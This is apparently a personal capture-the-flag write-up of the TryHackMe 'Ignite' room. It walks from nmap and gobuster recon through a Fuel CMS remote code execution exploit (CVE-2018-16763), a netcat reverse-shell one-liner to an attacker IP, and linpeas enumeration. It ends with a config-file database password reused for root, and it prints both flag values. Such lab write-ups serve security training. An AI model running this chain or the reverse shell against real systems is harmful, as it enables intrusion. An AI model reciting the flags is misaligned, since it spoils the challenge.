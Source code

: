 [THM](https://tryhackme.com/room/ignite)

finding the ip
```
sudo arp-scan -l
```

nmap scan:
```
nmap -sV -O -T4 --min-rate=10000 $ip
```
output
```zsh
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 08:00:27:9F:EC:DF (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
```

gobuster:
```
gobuster dir -u http://$ip -w /usr/share/dirb/wordlists/common.txt -t 300 -x txt,php,html -q
```
output
```zsh
/.hta.php             (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 297]
/@                    (Status: 400) [Size: 1134]
/@.html               (Status: 400) [Size: 1134]
/@.txt                (Status: 400) [Size: 1134]
/.hta.txt             (Status: 403) [Size: 296]
/0                    (Status: 200) [Size: 16597]
/.hta.html            (Status: 403) [Size: 297]
/assets               (Status: 301) [Size: 315] 
/.htpasswd.txt        (Status: 403) [Size: 301]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd.html       (Status: 403) [Size: 302]
/.htaccess.txt        (Status: 403) [Size: 301]
/.hta                 (Status: 403) [Size: 292]
/.htaccess.php        (Status: 403) [Size: 301]
/.htpasswd.php        (Status: 403) [Size: 301]
/@.php                (Status: 400) [Size: 1134]
/home                 (Status: 200) [Size: 16597]
/index.php            (Status: 200) [Size: 16597]
/index                (Status: 200) [Size: 16597]
/index.php            (Status: 200) [Size: 16597]
/.htaccess.html       (Status: 403) [Size: 302]
/lost+found           (Status: 400) [Size: 1134]
/lost+found.html      (Status: 400) [Size: 1134]
/lost+found.php       (Status: 400) [Size: 1134]
/lost+found.txt       (Status: 400) [Size: 1134]
/offline              (Status: 200) [Size: 70]
/robots.txt           (Status: 200) [Size: 30]
/robots.txt           (Status: 200) [Size: 30]
/server-status        (Status: 403) [Size: 301]
```
from the results
- Normal 200 OK responses on `/index.php`, `/home`, `/offline`, `/robots.txt`.
- `/assets` redirects (301) to a directory.

saw a login page at `fuel/login`
logged using 
admin
admin
didn't find anything useful

used searchsploit for fuel cms
```
searchsploit fuel 1.4
```
output
```zsh
fuel CMS 1.4.1 - Remote Code Execution (1)                                                                                                                                                        | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                                                                                                                        | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                                                                                                                                        | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                                                                                                                                       | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                                                                                                                              | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                                                                                                                  | php/webapps/48778.txt
```

download the exploit `Fuel CMS 1.4.1 - Remote Code Execution (3)`
```
searchsploit -m "php/webapps/50477.py"
```
output
```zsh
  Exploit: Fuel CMS 1.4.1 - Remote Code Execution (3)
      URL: https://www.exploit-db.com/exploits/50477
     Path: /usr/share/exploitdb/exploits/php/webapps/50477.py
    Codes: CVE-2018-16763
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/aswil/Trash/50477.py
```

run the exploit
```
python3 50477.py -u http://$ip
```
output
```zsh
[+]Connecting...
Enter Command $
```

```
uname -a
cat /etc/os-release
```
output
```shell
systemLinux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

systemNAME="Ubuntu"
VERSION="16.04.6 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.6 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

check nc
```
Enter Command $which nc
```
output
```shell
system/bin/nc
```

attempt for a revshell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.170.71.2 1337 >/tmp/f
```
listener
```
nc -lnvp 1337
```
got the reverse shell

to get a more stable shell and moved to `/tmp`
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
cd /tmp
```

hosted a python server
downloaded `linpeas.sh`
run linpeas.sh
```
chmod +x linpeas.sh
./linpeas.sh
```
output
```bash
╔══════════╣ Analyzing Backup Manager Files (limit 70)

-rwxrwxrwx 1 root root 4646 Jul 26  2019 /var/www/html/fuel/application/config/database.php
|	['password'] The password used to connect to the database
|	['database'] The name of the database you want to connect to
	'password' => 'mememe',
	'database' => 'fuel_schema',
```

read the file `/var/www/html/fuel/application/config/database.php`
```
cat /var/www/html/fuel/application/config/database.php
```
output
```bash
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
```
got the password as `mememe`

switch user
```
www-data@ubuntu:/tmp$ sudo su
sudo su
[sudo] password for www-data: mememe

Sorry, try again.
www-data@ubuntu:/var/www/html/fuel/application/config$ su root
su root
Password: mememe

root@ubuntu:/var/www/html/fuel/application/config# 
```
Access Granted ROOT

read the flag
```
root@ubuntu:/var/www/html/fuel/application/config# cd /root
cd /root
root@ubuntu:~# ls
ls
root.txt
root@ubuntu:~# cat root.txt
cat root.txt
b9bbcb33e11b80be759c4e844862482d 
root@ubuntu:~# cd /home
cd /home
root@ubuntu:/home# ls
ls
www-data
root@ubuntu:/home# cd ww	
cd www-data/
root@ubuntu:/home/www-data# ls
ls
flag.txt
root@ubuntu:/home/www-data# cat flag.txt
cat flag.txt
6470e394cbf6dab6a91682cc8585059b 
```

user flag: `6470e394cbf6dab6a91682cc8585059b`
root flag: `b9bbcb33e11b80be759c4e844862482d`
